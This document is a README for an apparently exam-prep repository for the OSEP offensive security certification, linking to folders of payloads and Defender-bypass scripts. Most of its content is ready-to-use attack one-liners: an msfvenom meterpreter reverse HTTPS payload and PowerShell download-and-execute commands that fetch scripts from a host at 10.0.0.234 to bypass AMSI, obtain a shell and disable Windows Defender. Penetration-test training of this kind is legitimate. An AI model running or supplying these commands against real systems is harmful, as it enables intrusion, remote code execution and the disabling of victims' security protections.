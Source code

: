 # OSEP 
this repository modified based on from `https://github.com/In3x0rabl3/OSEP`

# Summary

This repository will refresh your memory when taking the OSEP exam. 
<br>
Thank you, to everyone who's code was used in this repository.


# Table of Contents
- [OSEP_Reference](https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md)
- [OSEP_Checklist](https://github.com/In3x0rabl3/OSEP/blob/main/osep_checklistv2.md)
- [OSEP_Payloads](https://github.com/In3x0rabl3/OSEP/tree/main/Payloads)
- [OSEP_Bypass_Defender](https://github.com/In3x0rabl3/OSEP/tree/main/Bypass_Defender)
- [OSEP_Lateral_Movement](https://github.com/In3x0rabl3/OSEP/tree/main/Lateral_Movement)
- [OSEP_MSSQL](https://github.com/In3x0rabl3/OSEP/tree/main/MSSQL)


# OneKey Bypass Powershell And Get Shell
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.0.234 LPORT=443 -f ps1
(New-Object Net.WebClient).DownloadString('http://10.0.0.234:8000/msfvenom_bin/bypass_Ams1_getShell.ps1') | IEX;
```
# OneKey Bypass Posershell AMSI
```
(New-Object Net.WebClient).DownloadString('http://10.0.0.234:8000/bypass_defender/bypassAms1.ps1') | IEX;
```

# OneKey Disable Windows Defender
```
(New-Object Net.WebClient).DownloadString('http://10.0.0.234:8000/bypass_defender/DefendersDeath.ps1') | IEX;
(New-Object Net.WebClient).DownloadString('http://10.0.0.234:8000/bypass_defender/DisableDefender.ps1') | IEX;
+ (need administrator priviledge)
```

# 
```
```